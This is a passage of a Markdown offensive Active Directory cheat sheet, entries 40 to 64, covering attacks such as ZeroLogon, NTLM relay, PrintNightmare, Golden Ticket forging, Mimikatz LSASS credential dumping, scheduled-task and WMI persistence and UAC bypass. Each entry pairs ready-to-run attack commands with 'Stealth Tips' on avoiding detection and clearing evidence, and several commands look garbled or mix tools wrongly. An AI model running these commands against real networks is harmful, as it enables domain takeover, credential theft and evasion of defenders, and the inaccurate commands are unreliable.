- **Purpose**: Gain full replication rights and extract hashes  
- **Functionality**: Combines RBCD + DCSync to replicate secrets  
- **Why It's Vulnerable**: If RBCD set on DC object, DCSync becomes possible  
- **How to Test**: Create computer, set delegation to DC, and DCSync  
```powershell
# Powermad + Rubeus
New-MachineAccount ...
Set-RBCD on DC → Use Rubeus DCSync
```
- **Tools**: Powermad, Rubeus, mimikatz  
- **Stealth Tips**: Use temporary objects; clear evidence  
</details>


<a name="netlogon-zero-logon-cve-2020-1472"></a>
<details>
  <a name="netlogon-zerologon-cve-2020-1472"></a>
<details>
  <summary><strong>41. Netlogon ZeroLogon (CVE-2020-1472)</strong></summary>

- **Purpose**: Gain domain admin access by exploiting Netlogon protocol flaw  
- **Functionality**: Sends crafted Netlogon messages with zeroed fields  
- **Why It's Vulnerable**: Cryptographic flaw allows spoofing DC credentials  
- **How to Test**: Run Python PoC to authenticate as DC  
```bash
python3 zerologon_tester.py dc-name dc-ip
```
- **Tools**: Impacket, ZeroLogon exploit scripts  
- **Stealth Tips**: Exploit causes logs; use once and reset DC account  
</details>

<a name="ntlm-relay"></a>
<details>
  <a name="ntlm-relay"></a>
<details>
  <summary><strong>42. NTLM Relay</strong></summary>

- **Purpose**: Intercept and relay authentication to another service  
- **Functionality**: Man-in-the-middle attack using NTLM challenge-response  
- **Why It's Vulnerable**: Services accepting NTLM without signing  
- **How to Test**: Use responder + ntlmrelayx  
```bash
responder -I eth0
ntlmrelayx.py -t ldap://target --escalate-user vulnerable
```
- **Tools**: Responder, ntlmrelayx  
- **Stealth Tips**: Relay once; avoid repeated noise  
</details>

<a name="printnightmare-cve-2021-34527"></a>
<details>
  <a name="printnightmare-cve-2021-34527"></a>
<details>
  <summary><strong>43. PrintNightmare (CVE-2021-34527)</strong></summary>

- **Purpose**: Remote code execution via Print Spooler service  
- **Functionality**: Uploads DLL to system via printer API  
- **Why It's Vulnerable**: Print Spooler exposed and unpatched  
- **How to Test**: Use exploit to write DLL and trigger  
```bash
Invoke-Nightmare -NewUser "pwned" -AddToAdministrators
```
- **Tools**: PowerShell PoCs, Mimikatz  
- **Stealth Tips**: Remove DLL, cleanup user afterward  
</details>

<a name="samaccountname-spoofing-cve-2021-42278"></a>
<details>
  <a name="samaccountname-spoofing-cve-2021-42278"></a>
<details>
  <summary><strong>44. SAMAccountName Spoofing (CVE-2021-42278)</strong></summary>

- **Purpose**: Rename machine account to impersonate a domain admin  
- **Functionality**: Exploits mismatch in machine account naming checks  
- **Why It's Vulnerable**: No strict validation for account renames  
- **How to Test**: Rename machine account and request TGT  
```powershell
Rename-ADObject -Identity "CN=old" -NewName "DC01"
Rubeus asktgt /user:DC01 /rc4:<hash>
```
- **Tools**: PowerShell, Rubeus  
- **Stealth Tips**: Rename back quickly; keep account disposable  
</details>

<a name="petitpotam-adcs-relay"></a>
<details>
  <a name="petitpotam--adcs-relay"></a>
<details>
  <summary><strong>45. PetitPotam + ADCS Relay</strong></summary>

- **Purpose**: Coerce machine to authenticate to attacker and relay to ADCS  
- **Functionality**: EFSRPC coercion to force auth + ADCS relay  
- **Why It's Vulnerable**: Unauthenticated access to EFSRPC + misconfigured templates  
- **How to Test**: Use petitpotam + ntlmrelayx  
```bash
python3 petitpotam.py attacker-ip target-ip
ntlmrelayx.py -t http://CA-server/certsrv/ --adcs
```
- **Tools**: petitpotam, ntlmrelayx  
- **Stealth Tips**: Coerce once; use high-integrity cert template  
</details>

<a name="delegation-abuse-unconstrained"></a>
<details>
  <a name="delegation-abuse---unconstrained"></a>
<details>
  <summary><strong>46. Delegation Abuse - Unconstrained</strong></summary>

- **Purpose**: Abuse unconstrained delegation to impersonate users  
- **Functionality**: Attacker machine gets TGTs when user logs in  
- **Why It's Vulnerable**: Unconstrained delegation set on computer object  
- **How to Test**: Trick user into authenticating to attacker-controlled host  
```powershell
# After victim auths
Rubeus tgtdeleg
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Limit use of captured TGTs; cleanup afterwards  
</details>

<a name="kerberos-rc4-hashing-deprecated-vuln"></a>
<details>
  <a name="kerberos-rc4-hashing-weak-crypto"></a>
<details>
  <summary><strong>47. Kerberos RC4 Hashing (Weak Crypto)</strong></summary>

- **Purpose**: Exploit weak encryption for ticket forging  
- **Functionality**: Use known hash to forge TGT/TGS  
- **Why It's Vulnerable**: Legacy support of RC4 and weak crypto algorithms  
- **How to Test**: Force RC4 with Rubeus and inject forged tickets  
```powershell
Rubeus asktgt /user:target /rc4:<ntlm> /ptt
```
- **Tools**: Rubeus  
- **Stealth Tips**: Avoid triggering Kerberos events  
</details>

<a name="kerberos-golden-ticket"></a>
<details>
  <a name="golden-ticket"></a>
<details>
  <summary><strong>48. Golden Ticket</strong></summary>

- **Purpose**: Forge TGTs as any user including domain admins  
- **Functionality**: Use krbtgt hash to craft TGT  
- **Why It's Vulnerable**: DC trusts TGTs signed by krbtgt  
- **How to Test**: Dump krbtgt hash and create TGT  
```powershell
mimikatz "kerberos::ptt golden.kirbi"
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Use short lifetime TGTs; avoid excessive privileges  
</details>

<a name="ldap-signing-bypass"></a>
<details>
  <a name="ldap-signing-not-enforced"></a>
<details>
  <summary><strong>49. LDAP Signing Not Enforced</strong></summary>

- **Purpose**: Relay NTLM to LDAP without signing  
- **Functionality**: AD doesn’t require LDAP signing by default  
- **Why It's Vulnerable**: Enables relaying to domain controller  
- **How to Test**: Relay NTLM to LDAP using ntlmrelayx  
```bash
ntlmrelayx.py -t ldap://dc-ip --escalate-user victim
```
- **Tools**: ntlmrelayx, Responder  
- **Stealth Tips**: Limit relays; delete accounts created  
</details>

<a name="overpass-the-hash-pass-the-key"></a>
<details>
  <a name="overpass-the-hash-pass-the-key"></a>
<details>
  <summary><strong>50. OverPass-the-Hash (Pass-the-Key)</strong></summary>

- **Purpose**: Authenticate using NTLM hash by forging TGT  
- **Functionality**: Use AES/RC4 hash to generate TGT  
- **Why It's Vulnerable**: Kerberos accepts keys instead of passwords  
- **How to Test**: Use Mimikatz or Rubeus to craft TGT  
```powershell
mimikatz "kerberos::ptt /user:user /domain:lab.local /rc4:<ntlm>"
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: Clean up injected tickets  
</details>


<a name="resource-based-constrained-delegation"></a>
<details>
  <a name="resource-based-constrained-delegation-rbcd"></a>
<details>
  <summary><strong>51. Resource-Based Constrained Delegation (RBCD)</strong></summary>

- **Purpose**: Allow impersonation on target by modifying msDS-AllowedToActOnBehalfOfOtherIdentity  
- **Functionality**: Attacker-controlled computer account is delegated on victim  
- **Why It's Vulnerable**: ACL misconfig or writable attributes allow delegation abuse  
- **How to Test**:
```powershell
Add-DComputer -ComputerName 'pwned' -SAMAccountName 'pwned$'
Set-ADComputer 'victim$' -PrincipalsAllowedToDelegateToAccount 'pwned$'
```
- **Tools**: PowerView, Rubeus, Impacket  
- **Stealth Tips**: Use stealthy names; revert delegation post-access  
</details>

<a name="unquoted-service-path"></a>
<details>
  <a name="unquoted-service-path"></a>
<details>
  <summary><strong>52. Unquoted Service Path</strong></summary>

- **Purpose**: Exploit path parsing to run malicious binary with service privileges  
- **Functionality**: Windows may misinterpret unquoted service paths with spaces  
- **Why It's Vulnerable**: Service binary path is not wrapped in quotes  
- **How to Test**:
```powershell
sc qc vulnservice
# Place binary at 'C:\Program Files\Some App\evil.exe'
```
- **Tools**: PowerUp, accesschk.exe  
- **Stealth Tips**: Clean up binary; requires service restart  
</details>

<a name="weak-service-permissions"></a>
<details>
  <a name="weak-service-permissions"></a>
<details>
  <summary><strong>53. Weak Service Permissions</strong></summary>

- **Purpose**: Modify service binary to execute attacker code  
- **Functionality**: Service permissions allow write/replace of executable  
- **Why It's Vulnerable**: Misconfigured DACLs on service or executable  
- **How to Test**:
```powershell
accesschk.exe -uwcqv "Authenticated Users" * /svc
sc config vulnservice binpath= "C:\evil.exe"
```
- **Tools**: PowerUp, accesschk, sc.exe  
- **Stealth Tips**: Revert path after execution  
</details>

<a name="mimikatz-sekurlsa-dump"></a>
<details>
  <a name="credential-dumping-with-mimikatz"></a>
<details>
  <summary><strong>54. Credential Dumping with Mimikatz</strong></summary>

- **Purpose**: Extract plaintext passwords, hashes, and tickets from LSASS  
- **Functionality**: LSASS memory stores creds of logged-in users  
- **Why It's Vulnerable**: LSASS is accessible to admin-level users  
- **How to Test**:
```powershell
mimikatz
privilege::debug
sekurlsa::logonpasswords
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Avoid AV/EDR detection; use memory-safe methods  
</details>

<a name="browser-creds-and-lsass"></a>
<details>
  <a name="dumping-browser-creds--lsass-offline"></a>
<details>
  <summary><strong>55. Dumping Browser Creds & LSASS Offline</strong></summary>

- **Purpose**: Steal saved browser passwords or LSASS dump for offline parsing  
- **Functionality**: Use tools to decrypt browser or parse minidumps  
- **Why It's Vulnerable**: Browsers and LSASS often store sensitive data  
- **How to Test**:
```bash
procdump64.exe -ma lsass.exe lsass.dmp
mimikatz "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"
```
- **Tools**: Mimikatz, procdump, LaZagne  
- **Stealth Tips**: Upload & analyze offline; clean up dumps  
</details>

<a name="wmi-persistence"></a>
<details>
  <a name="wmi-event-subscription-persistence"></a>
<details>
  <summary><strong>56. WMI Event Subscription Persistence</strong></summary>

- **Purpose**: Maintain access using permanent WMI events  
- **Functionality**: Register event filters and consumers to execute payload  
- **Why It's Vulnerable**: WMI can persist actions without files  
- **How to Test**:
```powershell
Invoke-WmiEvent -Trigger Win32ProcessStartTrace -Command "calc.exe"
```
- **Tools**: PowerShell, WMIExplorer  
- **Stealth Tips**: Hard to detect; clear subscriptions later  
</details>

<a name="scheduled-task-persistence"></a>
<details>
  <a name="scheduled-task-persistence"></a>
<details>
  <summary><strong>57. Scheduled Task Persistence</strong></summary>

- **Purpose**: Run payload at logon or system boot  
- **Functionality**: Task Scheduler executes attacker-defined task  
- **Why It's Vulnerable**: Misconfigured permissions or admin access  
- **How to Test**:
```powershell
schtasks /create /tn "Updater" /tr "C:\evil.exe" /sc onlogon /ru System
```
- **Tools**: schtasks, PowerSploit  
- **Stealth Tips**: Use legit-looking names and paths  
</details>

<a name="user-account-control-bypass"></a>
<details>
  <a name="uac-bypass"></a>
<details>
  <summary><strong>58. UAC Bypass</strong></summary>

- **Purpose**: Elevate from medium integrity to high integrity without prompt  
- **Functionality**: Abuse auto-elevated binaries  
- **Why It's Vulnerable**: Auto-elevate rules and DLL hijacking  
- **How to Test**:
```powershell
Invoke-BinaryUACBypass -Method fodhelper -Command "C:\evil.exe"
```
- **Tools**: UACME, PowerUp  
- **Stealth Tips**: Use signed binaries if possible  
</details>

<a name="shadow-credentials"></a>
<details>
  <a name="shadow-credentials"></a>
<details>
  <summary><strong>59. Shadow Credentials</strong></summary>

- **Purpose**: Persist access via alternate credentials (KeyCredential)  
- **Functionality**: Add attacker public key to victim user object  
- **Why It's Vulnerable**: Weak ACLs allow key injection  
- **How to Test**:
```bash
certify shadow /user:target /dc:dc-ip /machine:attacker
```
- **Tools**: Certify, Whisker, SharpHound  
- **Stealth Tips**: Silent persistence method  
</details>

<a name="adcs-template-misconfig"></a>
<details>
  <a name="adcs-certificate-template-misconfig"></a>
<details>
  <summary><strong>60. ADCS Certificate Template Misconfig</strong></summary>

- **Purpose**: Abuse vulnerable certificate templates to escalate  
- **Functionality**: Enroll in low-privilege templates with high privilege rights  
- **Why It's Vulnerable**: Wrong security descriptors on templates  
- **How to Test**:
```bash
certify find /vulnerable
certify request /template:User /altname:admin
```
- **Tools**: Certify, ADCSKit  
- **Stealth Tips**: Remove certs after use  
</details>

<a name="printerbug-coercion"></a>
<details>
  <a name="printerbug-coercion"></a>
<details>
  <summary><strong>61. PrinterBug Coercion</strong></summary>

- **Purpose**: Coerce machine to authenticate to attacker  
- **Functionality**: Send Print Spooler call that triggers SMB auth  
- **Why It's Vulnerable**: Printer bug causes machine auth leak  
- **How to Test**:
```bash
rpcdump.py @target -U user
printerbug.py attacker@domain target
```
- **Tools**: printerbug.py, Responder  
- **Stealth Tips**: Use once per target; rotate SMB listener  
</details>

<a name="priv-esc-across-trust-key-abuse"></a>
<details>
  <a name="privesc-across-external-trust-trust-key-abuse"></a>
<details>
  <summary><strong>62. PrivEsc across External Trust – Trust Key Abuse</strong></summary>

- **Purpose**: Exploit trust misconfig to access another domain  
- **Functionality**: Abuse shared trust keys to forge cross-domain tickets  
- **Why It's Vulnerable**: Poor trust config allows forging with known keys  
- **How to Test**:
```powershell
Rubeus tgtdeleg /rc4:<trustkey> /domain:child.domain
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Minimal noise across domains; cleanup tickets  
</details>

<a name="kerberos-key-listing-dumping"></a>
<details>
  <a name="kerberos-key-listingdumping"></a>
<details>
  <summary><strong>63. Kerberos Key Listing/Dumping</strong></summary>

- **Purpose**: Extract Kerberos keys from memory or dump  
- **Functionality**: Keys used for ticket encryption are dumped from LSASS  
- **Why It's Vulnerable**: Keys reside in memory  
- **How to Test**:
```powershell
mimikatz "sekurlsa::ekeys"
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Avoid AV detection; use offline analysis  
</details>

<a name="kerberos-renewable-ticket-abuse"></a>
<details>
  <a name="renewable-kerberos-ticket-abuse"></a>
<details>
  <summary><strong>64. Renewable Kerberos Ticket Abuse</strong></summary>

- **Purpose**: Persist access by renewing TGT indefinitely  
- **Functionality**: Create long-lifetime ticket and keep renewing  
- **Why It's Vulnerable**: Policy allows long ticket lifetimes  
- **How to Test**:
```powershell
Rubeus renew /ticket:<kirbi>
```
- **Tools**: Rubeus  
- **Stealth Tips**: Fly under radar with long-term access  
</details>
